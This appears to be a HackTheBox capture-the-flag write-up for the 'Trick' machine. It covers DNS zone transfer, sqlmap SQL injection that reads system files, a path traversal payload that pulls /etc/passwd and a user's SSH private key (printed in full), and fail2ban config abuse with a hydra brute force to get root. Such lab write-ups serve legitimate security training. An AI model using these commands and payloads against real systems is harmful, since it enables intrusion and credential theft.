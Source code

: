 ```yaml
---
layout: post
title: "Trick"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/favicons/Hack-The-Box-logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```



as always starting with nmap
```bash
sudo nmap -sC -sV -T4 -oN nmap_trick -p- 10.10.11.166
```
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619124022.png)


we got 4 open ports , the 80 hosting a static web page without any interesting functionalities , and we can't really do anything with `SMTP` other than enumerating users .
let's enumerate `DNS` 

using `nslookup` we got a domain
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619124718.png)

I will add it to the `/etc/hosts` and use it to get more infos from the `DNS`
using DNS zone transfer we got a new domain 
```bash
dig axfr trick.htb  @10.10.11.166
```
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619125242.png)

looks like a CMS , quick google show us that there's potential `sqli`
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619125707.png)

[exploit](https://www.exploit-db.com/exploits/50802) , the public exploit didn't work , I will use `sqlmap`  

![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619130050.png)

`sqli` confirmed

```bash
sqlmap -r sqltest.txt --dump
```
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619130144.png)

the informations we got from the sqli until now , are not helpful , I tried to get shell but that didn't work , so let's try to read files
```bash
sqlmap -r sqltest.txt --file-read "/etc/passwd"
```
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619130532.png)
we can read files 
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619130623.png)

try different files but nothing useful , let's try to read the `nginx` files
```bash
sqlmap -r sqltest.txt --file-read "/etc/nginx/sites-available/default"
```
new vhosts
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619131428.png)

let's add it to the `/etc/hosts`
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619131650.png)

potential `lfi`
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619131712.png)

after testing different payloads , I got this 
`...//....//....//....//....//....//....//....//....//etc/passwd`
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619131900.png)

`....//....//....//....//....//....//....//....//....///home/michael/.ssh/id_rsa`

```
-----BEGIN OPENSSH PRIVATE KEY----- b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+ 4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/ Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4 1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0 +93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6 IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/ KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0 fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS 3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+ IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```



`sudo -l`
we can restart the `fail2ban service`` , let's check the configuration files of the service
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619132806.png)

we have write access over this folder 
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619133027.png)

 I found this [blog and I followed it to get root]
 (https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7)
I will add a malicious code in the `iptables-multiport.conf file
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619133547.png)

and I will restart the `fail2ban servcie` and bruteforce the ssh to trigger `the action ban`

```bash 
sudo /etc/init.d/fail2ban restart
```
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619134109.png)

```bash
hydra -l idk -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt ssh://10.10.11.166
```
once I will get banned , I will get root xD
![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619135009.png)


![/home/user/myblog/_site](/assets/img/posts/Trick/Pasted image 20240619135036.png)
